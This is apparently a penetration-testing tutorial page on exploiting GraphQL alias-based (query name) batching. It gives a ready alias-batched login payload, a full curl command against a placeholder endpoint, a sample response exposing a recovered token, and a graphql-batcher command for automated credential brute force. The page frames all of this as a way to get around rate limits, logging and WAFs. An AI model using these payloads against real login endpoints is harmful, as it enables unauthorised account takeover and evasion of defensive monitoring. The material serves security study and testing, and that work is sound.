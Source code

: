 ```yaml
---
title: Exploit GraphQL with Query Name Based Batching
description: Learn how to exploit GraphQL endpoints using query name based batching
  for increased efficiency and bypassing security controls.
keywords:
- GraphQL batching
- query name batching
- GraphQL aliasing
- cybersecurity
- batching attacks
- GraphQL vulnerabilities
- HTTP request crafting
---
```


# Query Name Based Batching

## Context

The objective of this article is to demonstrate how to exploit GraphQL endpoints using query name based batching. This technique allows attackers to execute multiple operations in a single request, effectively bypassing security controls and enhancing attack efficiency. To fully understand and implement this attack, you should be familiar with GraphQL query and mutation syntax, crafting HTTP requests, and basic GraphQL injection techniques.

## Theory

### Alias-Based Batching in GraphQL

Query name based batching exploits the aliasing feature of GraphQL to submit multiple operations within a single request. Each alias represents a unique operation, facilitating parallel execution in one HTTP request. By using aliases strategically, attackers can craft GraphQL requests that contain multiple queries or mutations, thus significantly impacting the target by increasing the volume of operations processed simultaneously.

### Security Implications of Query Name Based Batching

Query name based batching can bypass common security mechanisms like rate limits, logging, and web application firewalls (WAFs), which typically expect one operation per request. This leveraging of GraphQL's flexible aliasing allows attackers to effectively mask brute-force or enumeration attempts, posing a significant risk to application security.

### Detection and Prevention Challenges

Many GraphQL implementations fail to restrict the number of aliases or operations permitted in a single request. This lack of restriction presents an opportunity for attackers to execute batch attacks without triggering typical security controls designed for single-operation requests. Consequently, the security filters focusing on non-batched requests may fail to detect such malicious activity, offering attackers a way to exploit GraphQL endpoints efficiently.

## Practice

### Manual Query Name Based Batching Exploitation

This method involves crafting a GraphQL request that utilizes multiple aliases to batch operations, thereby increasing the attack throughput.

- **Craft a GraphQL Request**: The request should use aliases to include multiple operations in one:
  
  ```graphql
  {
    a1: login(username: "admin1", password: "pass1") { token }
    a2: login(username: "admin2", password: "pass2") { token }
    a3: login(username: "admin3", password: "pass3") { token }
  }
  ```

  This payload attempts three login operations simultaneously in one HTTP request.

- **Send the Batched Query**:
  
  ```bash
  curl -X POST https://target/graphql -H 'Content-Type: application/json' --data '{"query":"{ a1: login(username: \\"admin1\\", password: \\"pass1\\") { token } a2: login(username: \\"admin2\\", password: \\"pass2\\") { token } a3: login(username: \\"admin3\\", password: \\"pass3\\") { token } }"}'
  ```

  Execution of this command submits the batched query to the GraphQL endpoint.

- **Review the Response**:

  ```json
  {
    "data": {
      "a1": {"token": null},
      "a2": {"token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9"},
      "a3": {"token": null}
    }
  }
  ```

  The response indicates which login attempts, if any, were successful, showcasing which credentials might have been correctly brute-forced or discovered.

### Automated Alias-Based Brute Force with GraphQL Tools

For more advanced batch attacks, an automated approach using specialized tools enhances the scale and speed of the assault.

- **Automate the Attack**:
  
  Run a tool like `graphql-batcher` to automate alias-based brute-force attempts:

  ```bash
  python graphql-batcher.py --endpoint https://target/graphql --userlist users.txt --passwordlist passwords.txt --batch-size 5
  ```

  This command performs a high-volume batch brute-force attack by trying multiple credentials simultaneously with the specified batch size.

## Tools

- **Burp Suite**
- **graphql-batcher**
- **curl** 

These tools assist in manually or automatically crafting and executing batched GraphQL payloads to test for vulnerabilities effectively.